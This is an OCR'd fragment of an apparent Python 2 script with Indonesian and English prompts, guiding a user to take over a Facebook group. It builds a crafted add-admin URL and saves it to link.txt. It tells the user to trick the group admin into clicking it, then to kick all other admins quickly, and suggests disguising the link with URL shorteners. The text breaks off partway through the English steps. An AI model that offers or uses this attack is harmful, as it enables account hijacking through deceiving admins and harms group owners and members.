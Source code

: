   file.write("https://m.facebook.com/group/add_admin/?group_id=%s&user_id=%s&added&_rdrChange" % (grup, anda))

  print "%s--------------------%s" % (R, N)

  tahap6 = raw_input("%s6%s)%s Sekarang salin link hasil gabungan tersebut lalu kirimkan ke %sadmin%s. Bila anda kesusahan untuk menyalinnya, saya sudah menyimpan linknya dalam file *link.txt*. Jadi anda tinggal masuk ke file link.txt lalu menyalin linknya dan mengirimkannya ke %sadmin%s...%s[%sEnter%s]%s" % (Y, C, W, R, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap7 = raw_input("%s7%s)%s Anda tinggal menunggu hingga linknya diklik oleh si %sadmin%s grup...%s[%sEnter%s]%s" % (Y, C, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap8 = raw_input("%s8%s)%s Bila anda sudah menerima pemberitahuan bahwa anda sudah diangkat sebagai %sadmin%s, anda harus dengan cepat menendang semua %sadmin%s yang lain digrup tersebut sebelum %sadmin%s yang lain sadar dan menendang anda keluar...%s[%sEnter%s]%s" % (Y, C, W, R, W, R, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap9 = raw_input("%s9%s)%s Sekarang bersenang-senanglah %s:)%s...%s[%sEnter%s]%s" % (Y, C, W, Y, W, C, Y, C, N))

  print "%s[%s#%s]%s ------------------%s Selesai %s------------------ %s[%s#%s]%s" % (C, Y, C, B, W, R, C, Y, C, N)

  print

  time.sleep(1)

  print "%s*catatan:admin yang pintar dan cerdik akan segera mengetahui link yang anda kirimkan hanya dengan melihat link tersebut, jadi kami menyarankan anda untuk menggunakan shortlink untuk memyamarkan link tersebut. Gunakan goo.gl atau bit.ly dll*%s" % (Y, N)

  time.sleep(1)

  print "%sTerima kasih%s telah bersedia menggunakan %sprogram saya%s %s:')%s" % (C, W, R, W, Y, N)

  time.sleep(1)

  print "%sSampai Jumpa %s:)%s" % (W, Y, N)

  sys.exit()


elif bahasa.strip() in "02 2".split():

  print "%s [%s English%s ]%s" % (C, W, C, N)

  print

  step1 = raw_input("%s1%s)%s First Of All Go To The %sFacebook%s Group That You Want To %sHack%s...%s[%sEnter%s]%s" % (Y, C, W, B, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  step2 = raw_input("%s2%s)%s After That. Go Click On The Group Url And Then Copy 15 Digits Group Magical Code. Example %s(%s 589101351254979 %s)%s...%s[%sEnter%s]%s" % (Y, C, W, C, B, C, W, C, Y, C, N))
